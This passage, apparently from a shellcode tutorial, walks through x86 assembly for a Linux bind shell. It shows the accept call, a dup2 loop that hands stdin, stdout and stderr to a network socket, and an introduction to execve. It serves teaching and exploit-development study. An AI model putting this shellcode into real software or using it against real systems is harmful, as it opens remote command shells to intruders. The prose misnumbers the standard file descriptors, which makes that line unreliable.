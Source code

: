 The accept() system call is used with connection-based socket types (SOCK_STREAM, SOCK_SEQPACKET). 
It extracts the first connection request on the queue of pending connections for the listening socket, sockfd, creates a new connected socket, and returns a new file descriptor referring to that socket.  
The newly created socket is not in the listening state.  

```
XOR EAX, EAX     ; set EAX to zero for clean start
MOV AX, 0x16C    ; move accept syscall number (0x16C) in (E)AX
MOV EBX, EDI     ; move socket descriptor from EDI to EBX as first argument
XOR ECX, ECX     ; set ECX to zero as argument is NULL
XOR EDX, EDX     ; set EDX to zero as argument is NULL
XOR ESI, ESI     ; set flag to 0 by XOR-ing
INT 0x80         ; interrupt

XOR EDI, EDI     ; set EDI to zero
MOV EDI, EAX     ; As result, new socket descriptor will be saved in EAX 
                 ; so we can move it to EDI for further use.
```

Almost there.. next we need to call dup2 syscall with following arguments:
```
int dup2(int oldfd, int newfd);
```
The dup2() system call performs the same task as dup(), but instead of using the lowest-numbered unused file descriptor, it uses the file descriptor number specified in newfd.  If the file descriptor newfd was previously open, it is silently closed before being reused.

Looking at prototype we can see that dup2() needs to be called three time, for STDIN (0), STOUT (2) and STDERR (3).

```
dup2(socketid, 0);
dup2(socketid, 1);
dup2(socketid, 2);
```

To reduce shell code size, instad of manually goind thru each dup2 syscall, we can create a loop. 
ECX register will be used as counter but also as 2nd argument to dup2 syscall.

```
MOV CL, 0x3     ; putting 3 in the counter
LOOP_DUP2:      ; loop label
XOR EAX, EAX    ; clear EAX
MOV AL, 0x3F    ; putting the syscall code in EAX
MOV EBX, EDI    ; putting our new socket descriptor in EBX
DEC CL          ; decrementing CL by one (so at first CL will be 2 then 1 and then 0)
INT 0x80        ; interrupt
JNZ LOOP_DUP2   ; "jump non zero" jumping back to the top of LOOP_DUP2 if the zero flag is not set
```

And finaly execve syscall.

```
int execve(const char *pathname, char *const argv[], char *const envp[]);
```
execve()  executes the program referred to by pathname.  
This causes the program that is currently being run by the calling process to be replaced with a new program, 
with newly initialized stack, heap, and (initialized and uninitialized) data segments.
pathname must be either a binary executable, or a script starting with a line of the form: `#!interpreter [optional-arg]`.
  